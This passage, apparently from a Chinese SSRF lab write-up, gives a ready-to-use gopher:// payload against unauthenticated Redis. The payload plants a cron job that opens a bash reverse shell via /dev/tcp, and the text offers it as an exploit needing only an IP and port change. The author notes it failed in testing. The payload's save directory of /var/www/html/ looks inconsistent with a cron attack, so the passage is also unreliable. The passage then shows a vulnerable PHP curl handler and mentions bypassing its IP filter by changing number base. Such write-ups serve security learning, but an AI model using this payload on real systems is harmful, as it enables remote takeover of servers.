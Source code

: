 这里是常见的exp(全称: exploit 漏洞利用)，只要自己更改IP和端口即可，改成适配于``Gopher``协议的URL：

```
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/45952 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/www/html/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
```

经过URL解码：

```
gopher://127.0.0.1:6379/_*1 $8 flushall *3 $3 set $1 1 $64 */1 * * * * bash -i >& /dev/tcp/127.0.0.1/45952 0>&1 *4 $6 config $3 set $3 dir $16 /var/www/html/ *4 $6 config $3 set $10 dbfilename $4 root *1 $4 save quit
```

这里的测试有点懵啊，没有成功，之后在试试。

#### advanced1：

```
<?php 
	
	$handler = $_POST["handler"];
	if (preg_match('#^https?://#i', $handler) !== 1) {
		echo "Wrong scheme! You can only use http or https!";
		die();
	} else if(preg_match('#^https?://10.0.0.3#i', $handler) === 1) {
		echo "Restricted area!";
		die();
	}

	// create curl resource 
	$ch = curl_init(); 

	// set url 
	curl_setopt($ch, CURLOPT_URL, $_POST["handler"]); 

	//return the transfer as a string 
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 

	// $output contains the output string 
	$output = curl_exec($ch); 

	// close curl resource to free up system resources 
	curl_close($ch);

	echo $output;
?>
```

可以看到这里对我们输入的内容用正则表达式进行了过滤，要求我们只能使用``http于https``，且不能访问``10.0.0.3``，但是我们可以通过更换进制来进行绕过。

